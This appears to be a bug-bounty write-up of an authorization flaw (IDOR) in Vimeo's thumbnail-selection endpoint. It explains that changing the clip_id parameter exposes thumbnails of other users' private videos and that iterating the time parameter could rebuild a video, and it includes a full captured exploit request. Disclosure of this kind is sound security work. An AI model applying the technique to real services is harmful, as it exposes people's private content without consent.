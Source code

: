 ```yaml
---
layout: post
title: Abusing Thumbnails to see Vimeo private video
excerpt: 'https://vimeo.com/upload/select_thumb uri is used set a thumbnails on your vimeo video. https://vimeo.com/upload/.............'
categories: [IDOR,Privacy]
comments: true
---
```


https://vimeo.com/upload/select_thumb URL is used to set thumbnails to your Vimeo video. https://vimeo.com/upload/select_thumb URL request is composed of 3 parameter clip_id, token, and time. clip_id parameter is used to select a video you want to get a thumbnail, the token is an anti-CSRF token and time parameter is the time frame of the video you selected.

I changed the value of clip_id parameter to another video id to test some authorization flaw, it seems, it works because I got HTTP/1.1 200 OK and I short JSON response that contains a URL, like this one

```
{"success":true,"id":503302458,"url":"https:\/\/i.vimeocdn.com\/video\/503302458_100x75.jpg"}
```


To confirm this is an authorization flaw, I make an another account and upload a private video on that account and get the clip_id then make an HTTP request (https://vimeo.com/upload/select_thumb) to my attacker account using that clip_id. as a result, I got some thumbnails on a private video.

To get the whole video just iterate the time parameter!


## HTTP Request of vulnerable endpoint
{% highlight text %}
POST /upload/select_thumb HTTP/1.1
Host: vimeo.com
Connection: keep-alive
Content-Length: 101
Accept: application/json
Origin: https://vimeo.com
X-Requested-With: XMLHttpRequest
X-Request: JSON
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.95 Safari/537.36
Content-type: application/x-www-form-urlencoded; charset=UTF-8
DNT: 1
Referer: https://vimeo.com/116730756/settings
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.8,et;q=0.6,fil;q=0.4
Cookie: optimizelyEndUserId=oeu1421174571879r0.30598339810967445; vimeo_cart=%7B%22pro%22%3A%7B%22store%22%3A%22pro%22%2C%22version%22%3A1%2C%22quantities%22%3A%7B%22433857%22%3A1%7D%2C%22items%22%3A%5B%7B%22id%22%3A433857%7D%5D%2C%22currency%22%3A%22USD%22%2C%22attributes%22%3A%5B%5D%7D%7D; ki_t=1421174596820%3B1421174596820%3B1421174632154%3B1%3B2; ki_r=; optimizelySegments=%7B%22198520930%22%3A%22direct%22%2C%22199004622%22%3A%22gc%22%2C%22199138489%22%3A%22false%22%2C%22213082152%22%3A%22none%22%2C%22222271074%22%3A%22true%22%7D; optimizelyBuckets=%7B%7D; language=en; clips=116730756%2C116213689; auto_load_stats=1; has_logged_in=1; stats_start_date=2015%2F01%2F11; stats_end_date=2015%2F01%2F15; site_settings=%7B%22sticky_page%22%3A%22%5C%2Fmyvideos%22%2C%22browse_format_vid%22%3A%22video%22%7D; stream_id=Y2xpcHM6MzYzNzIzODc6aWQ6ZGVzYzpbXQ%3D%3D; stream_pos=1; orphaned_upload_clip_ids_v2=%5B116730663%2C116730664%5D; vuid=971609171.1881657208; _utma=18302654.1379178336.1421173781.1421184208.1421253399.5; _utmb=18302654.28.9.1421253997197; __utmc=18302654; __utmz=18302654.1421174705.2.2.utmcsr=google|utmccn=(organic)|utmcmd=organic|utmctr=(not%20provided); _utmv=18302654.|2=usertype=basic=1^3=ms=0=1^7=video_count=0=1; vimeo=epk9krxkmr70pcdxcxxsctd7jpcdxcxmkxrx7%2Cpfftk0tftdd0fdcmvx9x92rmksckx5rrfww5dwrvv; player=""; xsrft=d816974227fe3684c41a8501f333679f.61b1f2e5e1df9aeb29e02acf641d99a9

clip_id=9digitid&token=TOKEN_HERE&time=51.283

{% endhighlight %}

**Original Report:** [Hackerone](https://hackerone.com/reports/43850)
